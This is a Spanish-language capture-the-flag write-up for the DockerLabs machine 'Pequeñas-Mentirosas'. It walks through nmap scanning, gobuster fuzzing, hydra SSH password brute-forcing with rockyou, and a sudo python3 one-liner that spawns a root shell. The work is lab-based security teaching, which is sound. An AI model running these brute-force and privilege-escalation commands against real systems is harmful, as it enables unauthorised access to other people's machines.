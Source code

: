 ```yaml
---
title: Pequeñas-Mentirosas - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | beafn28        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/c0f30b08-c06b-4fc6-a01e-613973085e60)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `22` (SSH)
- `80` (HTTP)
A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p 22,80,3000 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/1cb3e4d7-e634-4a95-9682-be2a7a03e5e4)

# Exploración Web
Observamos que en la pagina inicial muestra un mensaje `Pista: Encuentra la clave para A en los archivos.`.Como no vemos nada mas vamos a hacer fuzzing.

![image](https://github.com/user-attachments/assets/2a097f17-e4b9-4261-baca-5fa809b31e29)

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/87bc711b-a608-4d70-a491-16983d52e339)

No hemos encontrado nada a si que lo siguiente es hacer fuerza bruta al usuario `a`.

## Fuerza Bruta

Para ello usaremos `hydra`.

```bash
hydra -l a -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

Y parece que tenemos una contraseña , la contraseña es `secret`.

![image](https://github.com/user-attachments/assets/8cab8a67-e13c-4a25-90ae-af2d5e09bb12)

# Intrusion usuario a

Accedemos con el usuario `a` por `ssh`.

```bash
a@172.17.0.2
```

![image](https://github.com/user-attachments/assets/1641b4f0-7abf-4b8d-a71d-6596671d4221)

No encontramos mucha cosa pero si vemos que existe un usuario llamado spencer, por lo que le haremos fuerza bruta a ver si existe una contraseña

## Fuerza Bruta

Para ello usaremos `hydra`.

```bash
hydra -l spencer -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

Y parece que tenemos una contraseña , la contraseña es `password1`.

![image](https://github.com/user-attachments/assets/da028713-4dc8-49df-b49d-0eeb1ad16c71)

# Intrusion usuario spencer

Accedemos con `spencer` por `ssh`.

![image](https://github.com/user-attachments/assets/bbdb8078-72be-4846-b33a-52610c7835d7)

Al ejecutar `sudo -l`, vemos que podemos ejecutar `python3` como `root` .Utilizando [GTFOBins](https://gtfobins.github.io/gtfobins/awk/#shell) sabemos cómo explotar estos binarios.

![image](https://github.com/user-attachments/assets/fa882495-bd9d-4456-88ca-323bbfa47825)

Ahora solo tenemos que generar una shell con permisos de root.

```bash
sudo /usr/bin/python3 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
![image](https://github.com/user-attachments/assets/4b903770-949d-4d88-955c-dba80a0750c4)

Ya somos root.

